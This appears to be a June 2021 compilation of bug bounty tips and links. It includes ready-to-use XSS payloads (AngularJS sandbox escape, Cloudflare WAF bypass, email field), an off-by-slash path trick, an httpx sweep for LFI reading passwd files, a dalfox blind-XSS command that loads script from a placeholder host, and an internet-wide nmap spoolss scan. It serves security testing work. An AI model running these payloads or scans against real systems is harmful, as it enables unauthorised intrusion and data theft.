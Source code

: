 # Bug Bounty Tips - June 2021

## Stumble upon 404 nginx servers? make sure to test for off-by-slash vulnerabilities

```text
http://example[.]com/index.php -> File not found
http://example[.].com/assets../index.php -> source code
```
**Try with img, js, assets, vendors, media as the folder name**
***Source: https://twitter.com/naglinagli/status/1401259603845918722?s=20***
***Reference: https://portswigger.net/bappstore/a5fdd2cdffa6410eb530de5a4c294d3a***

## Identify AD attack paths breaking the tier model using BloodHound
Github: https://github.com/improsec/ImproHound
Blogpost: https://improsec.com/tech-blog/improhound-identify-ad-tiering-violations
Demo video: https://youtu.be/zQ01tvTr6H0

## Exploiting outdated Apache Airflow instances
- https://ian.sh/airflow

## Quick test all the hosts for LFI via [@pdiscoveryio](https://github.com/projectdiscovery) - [httpx](https://github.com/projectdiscovery/httpx)

- https://github.com/hussein98d/LFI-files

```sh
httpx -l allhosts -paths /root/list.txt -threads 100 -random-agent -x GET,POST,PUT -title -tech-detect -status-code  -follow-redirects -title -mc 200 -match-regex "root:[x*]:0:0:"
```

![img](https://pbs.twimg.com/media/E3ykkLOX0AUI1kA?format=jpg&name=large)

## AngularJS stored XSS
```text
1. Usual payload in product name as '"><img src onerror=alert(1)>x{{7*7}}
2. Output as '">x49
```
### Final payload
```js
{{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,alert(1),a')}}
```
***Source: https://twitter.com/4z1zu/status/1376139627220725760?s=20***

## File Upload Checklist
![img](https://pbs.twimg.com/media/ErhbCBAW8AElD5G?format=png&name=large)
![img](https://pbs.twimg.com/media/ErhbC7EXUAAPfqO?format=png&name=large)
![img](https://pbs.twimg.com/media/ErhbDodWMAARW98?format=png&name=large)
![img](https://pbs.twimg.com/media/ErhbEceXMAAZeLF?format=png&name=large)

## Intigriti May XSS Challenge Solution
- https://infosecwriteups.com/solution-and-explanation-of-tips-for-intigritis-0521-xss-challenge-by-grumpinout-7544bad98e59

## Host Header Injection Writeups
- https://link.medium.com/w8U0Cmz6bhb
- https://link.medium.com/yfM33zA6bhb
- https://sites.google.com/site/testsitehacking/10k-host-header
- https://link.medium.com/uRmqVxT6bhb
- https://link.medium.com/KzO5UK06bhb
- https://link.medium.com/jZ8Gd816bhb
- https://link.medium.com/1DbUUj46bhb
- https://link.medium.com/hoXVNp56bhb
- https://link.medium.com/2n61hn66bhb
- https://link.medium.com/rQhotO76bhb

## CVE-2020-11110 Grafana Stored XSS
- https://ctf-writeup.revers3c.com/challenges/web/CVE-2020-11110/index.html

## New CloudFlare XSS bypass 
```js
< svg on onload = ( alert ) ( document.domain ) > 

r " on onmouseover = ( alert ) ( document.domain ) // 

r * / eval ?. ( value % 2B / ( / . source ) // " > < input value = confirm autofocus onfocus = ' / * "
```

## [Find XSS and Blind XSS via dalfox](https://twitter.com/Alra3ees/status/1407058456323014659?s=20)
send every request to burpsuite for more manual testing
```sh
dalfox file hosts --mining-dom  --deep-domxss --ignore-return -b '"><script src=https://YOURS.xss.ht></script>' --follow-redirects --proxy http://127.0.0.1:8080
```
![img](https://pbs.twimg.com/media/E4bf-FDXEAQmF2Q?format=jpg&name=large)

## Escalating XSS to Arbitrary File Read
- https://www.pethuraj.com/blog/escalating-xss-to-arbitrary-file-read/

### Reference Articles
- https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf
- https://blog.noob.ninja/local-file-read-via-xss-in-dynamically-generated-pdf/

## SSRF in pdf generator
- https://systemweakness.com/story-behind-sweet-ssrf-40c705f13053

## XSS in email field

```text
abc@mail.com‘-alert(“h4ck3d!!”)-’
```

## Oneliner to fuzz all hosts with wordlist using httpx and send every request to burpsuite for more investigations:- 
```sh
httpx -l hosts -paths dir.txt -threads 100 -random-agent -x GET,POST  -tech-detect -status-code  -follow-redirects -title -http-proxy http://127.0.0.1:8080
```

## [Find AEM:-](https://twitter.com/Alra3ees/status/1410062155248979968?s=20)

- https://github.com/0ang3el/aem-hacker
```sh
python3 aem_discoverer.py --file urls.txt
```
### scan dir:-
- https://github.com/Raz0r/aemscan
```sh
aemscan aem_url
```

## wordlist:-
https://github.com/emadshanab/Adobe-Experience-Manager

### pdnuclei tags 
```sh
nuclei -l hosts -tags AEM -t /root/nuclei-templates
```
![img](https://pbs.twimg.com/media/E5GLZFaXEAQJgaU?format=jpg&name=small) 

## [NSE msrpc-enum script to locate servers and desktops that have remotely exposed](https://twitter.com/hackerfantastic/status/1410267926607847427?s=20)
You can use nmap with NSE msrpc-enum script to locate servers and desktops that have remotely exposed "spoolss" and related services (rpc) for exploitation:
```sh
nmap -sT -p 135,445,137 -vv --script=msrpc-enum 0.0.0.0/0 --script-args 'smbusername=user,smbpass=pass' -oN nmap.txt
```
